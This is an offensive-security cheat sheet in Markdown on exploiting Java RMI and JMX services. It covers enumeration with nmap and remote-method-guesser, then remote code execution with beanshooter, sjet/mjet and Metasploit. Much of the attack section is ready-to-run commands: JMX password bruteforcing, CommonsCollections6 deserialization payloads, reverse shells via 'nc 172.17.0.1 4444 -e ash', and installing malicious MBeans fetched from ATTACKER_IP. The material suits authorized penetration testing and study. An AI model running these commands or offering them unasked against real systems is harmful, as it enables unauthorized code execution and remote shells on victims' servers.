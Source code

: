 # Java RMI

> Java RMI (Remote Method Invocation) is a Java API that allows an object running in one JVM (Java Virtual Machine) to invoke methods on an object running in another JVM, even if they're on different physical machines. RMI provides a mechanism for Java-based distributed computing.


## Summary

* [Tools](#tools)
* [Detection](#detection)
* [Methodology](#methodology)
  * [RCE using beanshooter](#rce-using-beanshooter)
  * [RCE using sjet/mjet](#rce-using-sjet-or-mjet)
  * [RCE using Metasploit](#rce-using-metasploit)
* [References](#references)


## Tools

- [siberas/sjet](https://github.com/siberas/sjet)
- [mogwailabs/mjet](https://github.com/mogwailabs/mjet)
- [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)
- [qtc-de/beanshooter](https://github.com/qtc-de/beanshooter) - JMX enumeration and attacking tool.


## Detection

* Using [nmap](https://nmap.org/):
  ```powershell
  $ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
  1089/tcp open  java-rmi Java RMI
  | rmi-vuln-classloader:
  |   VULNERABLE:
  |   RMI registry default configuration remote code execution vulnerability
  |     State: VULNERABLE
  |       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
  | rmi-dumpregistry:
  |   jmxrmi
  |     javax.management.remote.rmi.RMIServerImpl_Stub
  ```

* Using [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser):
  ```bash
  $ rmg scan 172.17.0.2 --ports 0-65535
  [+] Scanning 6225 Ports on 172.17.0.2 for RMI services.
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:40393 (DGC)
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:1090  (Registry, DGC)
  [+] 	[HIT] Found RMI service(s) on 172.17.0.2:9010  (Registry, Activator, DGC)
  [+] 	[6234 / 6234] [#############################] 100%
  [+] Portscan finished.

  $ rmg enum 172.17.0.2 9010
  [+] RMI registry bound names:
  [+]
  [+] 	- plain-server2
  [+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
  [+] 	- legacy-service
  [+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
  [+] 	- plain-server
  [+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
  [+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
  [...]
  ```

* Using [rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)
  ```bash
  use auxiliary/scanner/misc/java_rmi_server
  set RHOSTS <IPs>
  set RPORT <PORT>
  run
  ```

## Methodology

If a Java Remote Method Invocation (RMI) service is poorly configured, it becomes vulnerable to various Remote Code Execution (RCE) methods. One method involves hosting an MLet file and directing the JMX service to load MBeans from a distant server, achievable using tools like mjet or sjet. The remote-method-guesser tool is newer and combines RMI service enumeration with an overview of recognized attack strategies.


### RCE using beanshooter

* List available attributes: `beanshooter info 172.17.0.2 9010`
* Display value of an attribute: `beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose`
* Set the value of an attribute: `beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose true --type boolean`
* Bruteforce a password protected JMX service: `beanshooter brute 172.17.0.2 1090`
* List registered MBeans: `beanshooter list 172.17.0.2 9010`
* Deploy an MBean: `beanshooter deploy 172.17.0.2 9010 non.existing.example.ExampleBean qtc.test:type=Example --jar-file exampleBean.jar --stager-url http://172.17.0.1:8000`
* Enumerate JMX endpoint: `beanshooter enum 172.17.0.2 1090`
* Invoke method on a JMX endpoint: `beanshooter invoke 172.17.0.2 1090 com.sun.management:type=DiagnosticCommand --signature 'vmVersion()'`
* Invoke arbitrary public and static Java methods: 
  ```ps1
  beanshooter model 172.17.0.2 9010 de.qtc.beanshooter:version=1 java.io.File 'new java.io.File("/")'
  beanshooter invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'list()'
  ```
* Standard MBean execution: `beanshooter standard 172.17.0.2 9010 exec 'nc 172.17.0.1 4444 -e ash'`
* Deserialization attacks on a JMX endpoint: `beanshooter serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --username admin --password admin`


### RCE using sjet or mjet

#### Requirements

- Jython
- The JMX server can connect to a http service that is controlled by the attacker
- JMX authentication is not enabled

#### Remote Command Execution

The attack involves the following steps:
* Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
* Creating a instance of the MBean `javax.management.loading.MLet` on the target server, using JMX
* Invoking the `getMBeansFromURL` method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
* The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
* The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [siberas/sjet](https://github.com/siberas/sjet) or [mogwailabs/mjet](https://github.com/mogwailabs/mjet)

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

### RCE using Metasploit

```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
# configure also the payload if needed
run
```


## References

- [Attacking RMI based JMX services - Hans-Martin Münch - April 28, 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
- [JMX RMI - MULTIPLE APPLICATIONS RCE - Red Timmy Security - March 26, 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
- [remote-method-guesser - BHUSA 2021 Arsenal - Tobias Neitzel - August 15, 2021](https://www.slideshare.net/TobiasNeitzel/remotemethodguesser-bhusa2021-arsenal)